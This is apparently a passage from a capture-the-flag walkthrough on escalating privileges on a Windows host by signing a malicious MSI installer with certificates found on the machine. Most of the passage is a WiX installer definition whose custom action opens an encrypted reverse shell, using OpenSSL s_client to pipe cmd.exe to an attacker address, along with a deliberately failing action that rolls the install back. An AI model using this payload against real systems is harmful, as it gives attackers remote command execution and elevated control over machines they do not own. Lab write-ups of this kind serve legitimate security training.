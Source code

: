 This strongly suggests that we can build a msi file, sign it with some certificates from the machine and place it here in order get it executed. We find the mentioned certificates here:

```
D:\Certs>dir
 Volume in drive D is Development
 Volume Serial Number is 54E5-37D1

 Directory of D:\Certs

07/07/2018  09:50 PM    <DIR>          .
07/07/2018  09:50 PM    <DIR>          ..
07/01/2018  09:26 PM               772 MyCA.cer
07/01/2018  09:26 PM             1,196 MyCA.pvk
               2 File(s)          1,968 bytes
               2 Dir(s)   8,437,514,240 bytes free
```

To create the actual payload we use [wix](https://wixtoolset.org/). To begin we need to create a xml file that describes our installer:

```
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
  <Product Id="*" UpgradeCode="8e2b6e8e-d8c0-4bdd-930e-5b7428ea9da6" Name="Example Product Name" Version="0.0.1" Manufacturer="xct" Language="1033">
  <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
  <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
  <Directory Id="TARGETDIR" Name="SourceDir">
    <Directory Id="ProgramFilesFolder">
      <Directory Id="INSTALLLOCATION" Name="Example">
        <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-123456789012">
          <File Id="ApplicationFile1" Source="D:\xct\xct.txt"/>
        </Component>
      </Directory>
    </Directory>
  </Directory>
  <Feature Id="DefaultFeature" Level="1">
    <ComponentRef Id="ApplicationFiles"/>
  </Feature>
  <CustomAction Id="Shell" Directory="TARGETDIR" ExeCommand="cmd.exe /c C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.4:73| cmd.exe | C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.4:136" Execute="deferred" Impersonate="yes" Return="ignore"/>
  <CustomAction Id="Fail" Execute="deferred" Script="vbscript" Return="check">
    Error
  </CustomAction>
  <InstallExecuteSequence>
  <Custom Action="Shell" After="InstallInitialize"></Custom>
  <Custom Action="Fail" Before="InstallFiles"></Custom>
  </InstallExecuteSequence>
  </Product>
</Wix>
```
